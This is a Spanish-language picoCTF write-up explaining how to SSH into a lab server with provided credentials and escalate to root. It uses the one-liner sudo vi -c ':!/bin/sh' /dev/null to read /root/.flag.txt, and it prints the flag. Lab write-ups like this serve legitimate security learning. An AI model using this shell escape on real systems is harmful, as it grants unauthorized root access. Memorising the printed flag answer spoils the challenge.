 ### Descripción

Acceda al servidor mediante SSH y verifique si es posible leer archivos en el directorio raíz.

### Acceso al servidor

El administrador del sistema ha aprovisionado una cuenta para usted en el servidor principal.

**Credenciales:**

- **Usuario:** `picoplayer`
- **Servidor:** `saturn.picoctf.net`
- **Puerto:** `49789`
- **Contraseña:** `NBD+zO8s4y`

### Solución

1. **Abrir la terminal en Windows**
    
    Para acceder al servidor, use el siguiente comando en la terminal de Windows:
        
    `ssh -p 49789 picoplayer@saturn.picoctf.net`
    
2. **Aceptar la clave del servidor**
    
    - Si es la primera vez que se conecta, verá un mensaje sobre la autenticidad del host.
    - Escriba `yes` y presione **Enter** para continuar.
    
3. **Ingresar la contraseña**
    
    Cuando se le solicite, ingrese la contraseña:
    
    `NBD+zO8s4y`
    
4. **Navegar al directorio raíz (`/`)**
    
    - Moverse al directorio raíz usando:
                
        `cd /`
        
    - Ver los archivos y directorios disponibles:
        `ls`
        
5. **Obtener acceso como root**
    
    - Se utilizó el comando:
                
        `sudo vi -c ':!/bin/sh' /dev/null`
        
    - Se ingresó la contraseña nuevamente para ejecutar `sudo`.
        
    - Esto abrió un shell con permisos de superusuario.
        
6. **Acceder al directorio `/root` y leer la bandera**
    
    - Moverse al directorio `root`:
        
        `cd root`
        
    - Listar los archivos ocultos:
                
        `ls -la`
        
    - Encontrar el archivo `.flag.txt`.
        
    - Mostrar su contenido con:
        `cat .flag.txt`
    - La bandera obtenida fue:
        `picoCTF{uS1ng_v1m_3dit0r_1cee9dcb}` 
7. **Cierre de conexión**
    - La conexión se cerró automáticamente tras completar la tarea.
### Notas adicionales

- Se utilizó un método de escalada de privilegios con `sudo vi` para obtener acceso a root.
- Es recomendable verificar siempre los permisos y archivos disponibles en `/root` si se tienen privilegios elevados.
### Referencias

- [Uso de SSH en Windows](https://docs.microsoft.com/en-us/windows-server/administration/openssh/openssh_overview)
- Comandos básicos de Linux
- [Uso de `sudo` y escalada de privilegios](https://www.sudo.ws/)